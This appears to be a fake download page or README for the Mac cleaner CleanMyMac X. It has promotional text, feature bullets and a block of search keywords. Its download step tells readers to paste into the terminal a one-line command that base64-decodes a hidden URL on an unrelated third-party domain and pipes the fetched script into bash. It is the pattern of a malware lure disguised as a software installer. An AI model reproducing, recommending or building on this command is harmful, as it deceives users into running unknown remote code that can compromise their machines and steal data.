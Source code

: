 # CleanMyMac X Download - Optimization & Cleaning Tool

![CleanMyMac X Screenshot 1](https://lucidgen.com/wp-content/uploads/2025/05/tai-cleanmymac.png)

---

### 🔽 Download CleanMyMac X for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is CleanMyMac X for Mac?

CleanMyMac X is the ultimate optimization utility designed specifically for macOS systems. This powerful application helps users maintain their Mac computers in perfect condition by removing unnecessary files, optimizing system performance, and protecting privacy. Developed by MacPaw, CleanMyMac X has become an essential tool for millions of Mac users worldwide who want to keep their systems running smoothly.

The software offers a comprehensive suite of cleaning tools that go far beyond basic disk cleanup. It intelligently scans your system for various types of junk files including system cache, user cache, language files, duplicate items, and old attachments. What sets CleanMyMac X apart is its smart scanning technology that safely identifies files that can be removed without affecting system stability.

Beyond cleaning, CleanMyMac X provides powerful maintenance tools that can help speed up your Mac by running maintenance scripts, freeing up RAM, and managing startup items. The application also includes specialized tools for complete app uninstallation, malware detection and removal, and sensitive data protection. With its intuitive interface and one-click solutions, CleanMyMac X makes system optimization accessible to users of all experience levels.

For creative professionals and power users, CleanMyMac X offers advanced features like large file management, space visualization, and email attachment cleanup. The application is regularly updated to support the latest macOS versions and works seamlessly with both Intel and Apple Silicon Macs.

![CleanMyMac X Screenshot 2](https://software.onthehub.com/documentation/macpaw/System%20junk.png)

---

## Key Features & Benefits

- 🗑️ Comprehensive system cleanup removing gigabytes of junk files
- ⚡ Performance optimization tools to speed up your Mac
- 🛡️ Built-in malware protection and removal
- 📊 Real-time system monitoring dashboard
- 🔒 Privacy protection with secure file deletion
- 🚀 Easy-to-use interface with smart recommendations

Keep your Mac running like new with CleanMyMac X's powerful optimization tools!

---

## 🔍 Keywords

CleanMyMac X, CleanMyMac X Mac Download, CleanMyMac X for Mac Download, CleanMyMac X Mac, CleanMyMac X Download Mac, CleanMyMac X Download for Mac, CleanMyMac X full version, Mac Download CleanMyMac X, Download Mac CleanMyMac X, Download CleanMyMac X Mac, Download CleanMyMac X for Mac

